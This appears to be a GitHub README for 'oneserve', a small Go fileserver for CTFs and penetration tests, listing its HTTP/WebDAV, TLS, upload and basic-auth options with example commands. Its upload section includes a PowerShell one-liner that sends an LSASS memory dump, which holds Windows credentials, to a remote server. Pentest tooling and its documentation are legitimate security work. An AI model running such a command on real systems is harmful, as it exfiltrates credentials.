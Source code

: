 ## oneserve
![](img/gopher-oneserve.png)

**A small cross-platform fileserver for CTFs and penetration tests.**

Currently supports HTTP/WebDAV, file uploads, TLS, and basic authentication.

I am aware that the code is far from optimal and really betrays the fact I'm not a developer, but I would welcome any recommendations or requests!

## Installation

Download the appropriate binary from the releases page, or compile it yourself! It has only been tested on Ubuntu 20.04 and Windows 10/Server 2019 so far, but it should work on most OS/architectures supported by the Go compiler.

## Options
### -a, --address
Address on which the server will listen
### -p, --port
Port on which the server will listen
### -d, --directory
The directory to serve
### -T, --tls
Enables TLS
### -K, --key
The key to be used when TLS is enabled
### -C, --cert
The certificate to be used when TLS is enabled
### -c, --colour
Enables colour output
### -P, --prefix (WebDAV only)
Prefix to use for the WebDAV server
### -b, --basicauth (HTTP only)
Basic auth credentials, separated by a colon e.g. `admin:password`
### -u, --upload (HTTP only)
Enables uploading files, takes a path as an argument. For example, option `-u uploadfile` will accept POST requests on `http://IP:PORT/uploadfile` and will save the files in the working directory

Files can be uploaded from the command line like so:

**powershell:** `(New-Object system.net.webclient).UploadFile("http://192.168.1.10:8080/uploadfile","C:\Windows\Tasks\lsass.dmp")`

**bash:** `curl -vv http://192.168.1.10:8080/uploadfile -F 'file=@test.csv'`

![](img/oneserve-screenshot-b.png)

## Examples

`oneserve http`

Starts an HTTP server on port 8000

`oneserve http -c -u uploadfile`

Starts an HTTP server on port 8000, with colour output and upload enabled on /uploadfile

`oneserve webdav -a 192.168.1.10 -p 80 -P share -c`

Starts a WebDAV server on 192.168.1.10:80/share with colour output enabled

`oneserve http -p 8443 -T -C server.crt -K server.key -b admin:test`

Starts an HTTPS server on port 8443 with basic authentication enabled
